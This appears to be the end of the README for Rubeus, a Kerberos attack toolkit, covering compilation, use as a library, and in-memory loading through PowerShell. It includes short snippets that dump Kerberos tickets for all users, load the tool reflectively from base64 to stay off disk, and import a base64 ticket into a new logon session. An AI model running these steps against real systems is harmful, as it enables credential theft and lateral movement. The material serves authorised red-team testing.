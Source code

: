 **Note that this action needs to be run from an elevated context!**


## Compile Instructions

We are not planning on releasing binaries for Rubeus, so you will have to compile yourself :)

Rubeus has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.


### Sidenote: Building Rubeus as a Library

To build Rubeus as a library, under **Project** -> **Rubeus Properties** -> change **Output type** to **Class Library**. Compile, and add the Rubeus.dll as a reference to whatever project you want. Rubeus functionality can then be invoked as in a number of ways:


    // pass the Main method the arguments you want
    Rubeus.Program.Main("dump /luid:3050142".Split());

    // or invoke specific functionality manually
    Rubeus.LSA.ListKerberosTicketDataAllUsers(new Rubeus.Interop.LUID());


You can then use [ILMerge](https://www.microsoft.com/en-us/download/details.aspx?displaylang=en&id=17630) to merge the Rubeus.dll into your resulting project assembly for a single, self-contained file.


### Sidenote: Running Rubeus Through PowerShell

If you want to run Rubeus in-memory through a PowerShell wrapper, first compile the Rubeus and base64-encode the resulting assembly:

    [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Rubeus.exe")) | Out-File -Encoding ASCII C:\Temp\rubeus.txt

Rubeus can then be loaded in a PowerShell script with the following (where "aa..." is replaced with the base64-encoded Rubeus assembly string):

    $RubeusAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("aa..."))

The Main() method and any arguments can then be invoked as follows:

    [Rubeus.Program]::Main("dump /luid:3050142".Split())

Or individual functions can be invoked:

    $KerbTicket = 'do...' # base64-encoded ticket.kirbi
    $TicketBytes = [convert]::FromBase64String($KerbTicket)
    $LogonID = [Rubeus.LSA]::CreateProcessNetOnly("mmc.exe", $false)
    [Rubeus.LSA]::ImportTicket($TicketBytes, $LogonID)
